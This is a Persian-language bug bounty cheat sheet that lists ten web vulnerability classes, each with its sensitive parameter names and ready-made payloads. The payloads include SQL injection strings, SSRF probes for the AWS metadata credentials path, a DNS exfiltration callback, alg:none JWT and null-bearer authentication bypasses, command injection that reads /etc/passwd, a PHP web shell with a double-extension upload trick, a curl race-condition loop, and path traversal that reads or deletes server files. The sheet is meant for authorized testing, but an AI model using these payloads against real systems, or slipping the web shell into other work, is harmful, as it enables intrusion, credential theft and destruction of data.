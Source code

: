 🚀 P1 Bug Bounty Cheat Sheet (2025)
1. 🔑 IDOR (Insecure Direct Object Reference)

پارامترهای حساس:

```
user_id, account_id, profile_id, order_id, invoice_id, doc_id, uid
```

Payload تست:
```
GET /api/user/profile?user_id=12345   # کاربر A
GET /api/user/profile?user_id=12346   # دسترسی غیرمجاز به کاربر B
```
2. 🔒 Broken Access Control (BAC - فنی)

پارامترهای حساس:
```
role, isAdmin, permission, access_level, group
```

Payload تست:
```
POST /api/updateRole
{"user":"12345","role":"admin"}   # ارتقاء نقش غیرمجاز
```
3. 💉 SQL Injection (Error Based)

پارامترهای حساس:
```
id, query, search, sort, filter, report_id
```

Payload تست:
```
?id=1'   -- Error Based
?id=1' ORDER BY 5-- 
?id=1' UNION SELECT null,null,version()-- 
```
4. 🌐 SSRF (Server-Side Request Forgery)

پارامترهای حساس:
```
url, link, target, callback, feed, redirect, endpoint, webhook
```

Payload تست:
```
url=http://127.0.0.1:22        # تست پورت داخلی
url=http://169.254.169.254/latest/meta-data/iam/security-credentials/  # AWS metadata
url=http://burpcollaborator.net/abc   # DNS exfil
```
5. 🛑 Authentication Bypass (فنی)

پارامترهای حساس:
```
auth, token, session_id, jwt, sso, bearer
```

Payload تست:
```
Authorization: Bearer null
Authorization: Bearer '' 
Cookie: session_id=123 OR 1=1
jwt={"alg":"none","kid":"1","payload":{"role":"admin"}}
```
6. 💣 RCE (Remote Code Execution)

پارامترهای حساس:
```
cmd, exec, shell, process, run
```

Payload تست:
```
cmd=ls -la; id
exec=whoami && cat /etc/passwd
```
7. 🐚 Shell Upload (نوعی RCE)

پارامترهای حساس:
```
file, upload, avatar, media, image
```

Payload تست (PHP Shell):
```
<?php system($_GET['cmd']); ?>
```

آپلود با نام: shell.php.jpg

دسترسی: http://site.com/uploads/shell.php?cmd=id

8. 📤 Unrestricted File Upload

پارامترهای حساس:
```
upload, file, attachment, document
```

Payload تست:
```
آپلود .htaccess برای اجرای PHP

آپلود فایل evil.svg با JavaScript درون SVG
```
9. ⚡ Race Condition

پارامترهای حساس:
```
coupon, promo, balance, transfer, withdraw
```

Payload تست:
```
# استفاده همزمان از یک کوپن تخفیف
for i in {1..50}; do curl -X POST https://target.com/redeem?coupon=FREE100 & done
```
10. 📂 Path Traversal / Arbitrary File Deletion

پارامترهای حساس:
```
file, path, dir, delete, remove, download
```

Payload تست:
```
download=../../../../etc/passwd
delete=../../../../var/www/html/config.php
```
✅ Quick Notes

ابزار پیشنهادی برای پیدا کردن این پارامترها: Burp ParamMiner, Arjun, NarrowX

اول روی Token / IDOR / File / Redirect / SSRF تمرکز کن (بیشترین P1 Report ها در ۲۰۲۵)

برای اثبات، همیشه PoC کوتاه + اسکرین‌شات + هدر/ریسپانس بذار


===================================================================

# پارامترهای حساس P1 برای تست نفوذ وب در باگ بانتی همراه با پیلودهای نمونه

| نوع آسیب‌پذیری             | پارامترهای حساس              | مثال پیلود (Payload)                                                                                     | توضیح مختصر                           |
|--------------------------|-----------------------------|---------------------------------------------------------------------------------------------------------|-------------------------------------|
| IDOR (Insecure Direct Object Reference) | user_id, id, account_id, document_id | `/api/v1/user/123/profile` → تغییر `123` به شناسه دیگر یا `/download?invoice_id=456` → تغییر مقدار          | دسترسی غیرمجاز به داده‌های دیگران   |
| Broken Access Control (فنی) | Authorization, role, token  | تغییر هدر `Authorization: Bearer <token>` یا تغییر پارامتر `?role=admin`                                 | دور زدن محدودیت‌های دسترسی           |
| SQL Injection (Error Based) | id, username, search        | `' OR 1=1--` در رشته‌های ورودی، مثلاً `?id=1' OR '1'='1`                                               | استخراج داده یا دور زدن کنترل‌ها با خطاهای SQL |
| SSRF (Server-Side Request Forgery) | url, redirect_uri, endpoint, service | `?url=http://169.254.169.254/latest/meta-data` یا `?redirect_uri=http://evil.com`                        | درخواست به منابع داخلی یا هک از راه دور |
| Authentication Bypass (فنی) | token, password, new_password | ارسال درخواست با توکن‌های دستکاری شده یا استفاده از پارامتر `?token=abcdef` بدون اعتبارسنجی صحیح         | نفوذ به حساب بدون مجوز               |
| RCE (Remote Code Execution) | command, exec, input        | `?command=ls` یا تزریق کد‌های مخرب در پارامترهای ورودی مانند `; cat /etc/passwd`                        | اجرای کد دلخواه روی سرور            |
| Shell Upload (نوعی RCE)    | file, upload                | آپلود فایل PHP معکوس مانند `<?php system($_GET['cmd']); ?>`                                            | آپلود فایل مخرب برای کنترل سرور     |
| Unrestricted File Upload  | file, upload, avatar        | آپلود فایل با پسوندهای غیرمجاز مانند `.php`, `.jsp`                                                   | دسترسی و اجرای کد مخرب روی سرور      |
| Race Condition            | quantity, count, index      | ارسال همزمان چند درخواست با `?quantity=-1` یا `?count=2`                                               | ایجاد مشکلات منطقی و دور زدن محدودیت‌ها |
| Path Traversal / Arbitrary File Deletion | file, path, filename       | `?file=../../../../etc/passwd` یا درخواست حذف با `?filename=../../../important_file`                    | دسترسی یا حذف فایل‌های حساس         |

---

### نمونه دقیق پیلودها:

- **IDOR**  

```
GET /api/v1/user/100/profile
GET /download?invoice_id=200
```
تغییر شناسه‌ها در URL برای دسترسی به اطلاعات کاربران دیگر

- **SQL Injection**  
```
?id=1' OR '1'='1'--
```
تزریق کد SQL برای دور زدن کنترل‌ها یا استخراج داده‌ها

- **SSRF**  
```
?url=http://169.254.169.254/latest/meta-data/
```

استفاده از پارامتر url برای درخواست به منابع داخلی سرویس کلود

- **RCE**  
```
?command=ls; cat /etc/passwd
```

اجرای دستور سیستم روی سرور

- **Shell Upload**  
فایل PHP شامل:
```
<?php system($_GET['cmd']); ?>
```
برای اجرای دستورات دلخواه روی سرور

- **Path Traversal**  
```
?file=../../../../etc/passwd
```

===================================================================



